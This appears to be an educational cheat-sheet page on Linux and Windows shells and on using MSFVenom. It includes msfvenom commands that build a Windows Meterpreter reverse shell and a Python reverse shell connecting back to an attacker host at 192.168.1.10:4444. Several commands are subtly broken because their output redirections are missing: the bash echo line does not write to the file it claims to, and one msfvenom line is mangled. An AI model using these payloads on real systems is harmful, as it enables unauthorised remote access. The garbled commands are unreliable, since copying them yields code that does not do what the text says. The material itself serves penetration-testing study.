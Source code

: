 # Shells (Linux, Windows, MSFVenom)


# 👉 Overview

---

### 👀 What ?

Shells are a user interface for access to an operating system's services. In the world of cybersecurity, they are often used as a tool for remote access to a system. There are various types of shells like Linux shells (bash, sh), Windows shells (cmd, PowerShell), and tools like MSFVenom that can generate shellcode for various purposes.


### 🧐 Why ?

Understanding shells is crucial as they are fundamental to operating systems. For cybersecurity professionals, they are a tool for penetration testing, vulnerability assessments, and exploit development. They provide an environment where commands can be executed, scripts can be run, and system resources can be managed. MSFVenom, for instance, is a potent tool that combines Msfpayload and Msfencode, enabling users to create and customize their shellcode.


### ⛏️ How ?

To use a shell, one must first open a terminal (command prompt in Windows). Commands can then be inputted directly. For example, to list all files in a directory in a Linux shell, the command 'ls' is used. In Windows shell, the equivalent is 'dir'. MSFVenom is a more advanced tool, and it can be used to generate shellcode for a variety of exploits. For example, to generate a simple Windows Meterpreter reverse shell, one could use the command 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IPLPORT=<Your Port-f exe shell.exe'.


### ⏳ When ?

Shells have been in use since the dawn of modern computing, with the first Unix shell (the Bourne shell) being released in 1979. Windows shell (cmd.exe) has been included with Microsoft Windows since its inception, and PowerShell was introduced in 2006. MSFVenom is a part of the Metasploit Framework, which has been a staple of penetration testing since its release in 2003.


# ⚙️ Technical Explanations

---

Shells are an essential user interface providing access to operating system services, primarily through text-based inputs and outputs. They function as an interpreter, taking commands from the user and passing them to the operating system's kernel for execution. This interface allows users to initiate processes, manage files, and control other system resources.

Shells also have scripting capabilities, which makes them incredibly powerful for automating tasks. You can write sequences of commands (scripts) and execute them as a single entity, making repetitive tasks more efficient.

In the context of cybersecurity, shells take on a significant role. They are often used to gain remote access to a system during penetration testing or exploitations. A shellcode, a small piece of code used as the payload in software vulnerability exploitation, is typically designed to start a command shell on the compromised machine, giving the attacker control.

MSFVenom, a part of the Metasploit Framework, is a tool that generates shellcodes for various purposes. It combines Msfpayload and Msfencode, enabling users to create and customize their shellcodes. These shellcodes can be tailored to exploit specific vulnerabilities and can be used to achieve various outcomes, like creating a reverse shell for remote system control.

Understanding shells, their applications, and their potency in cybersecurity contexts is crucial for anyone working with operating systems or in the field of cybersecurity.

For instance, let's consider the Linux shell (bash). Here's a simple script that automates the task of creating a new directory and creating a file in it:

```bash
#!/bin/bash
# This is a comment. The line above makes sure the script is executed in bash
mkdir new_directory # creates a new directory named 'new_directory'
cd new_directory # changes the current directory to 'new_directory'
touch new_file.txt # creates a new file named 'new_file.txt' in the current directory
echo "Hello, World!" new_file.txt # writes 'Hello, World!' into 'new_file.txt'

```

The script starts by creating a new directory using the `mkdir` command. It then navigates into that directory using the `cd` command. Following that, the `touch` command creates a new file, and the `echo` command writes a string into that file.

In the context of cybersecurity, let's look at MSFVenom. Here's an example of generating a Python reverse shell:

```bash
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.10 LPORT=4444 -f raw shell.py

```

In this command, `-p cmd/unix/reverse_python` specifies the type of payload to generate, a reverse shell written in Python. `LHOST=192.168.1.10` and `LPORT=4444` specify the IP address and port for the reverse shell to connect back to. `-f raw` tells MSFVenom to output the shellcode in a raw format, and `shell.py` directs this output into a Python file named '[shell.py](http://shell.py/)'. If this shellcode is run on a target machine, it will create a reverse shell that connects back to the attacker's machine at the specified IP and port.
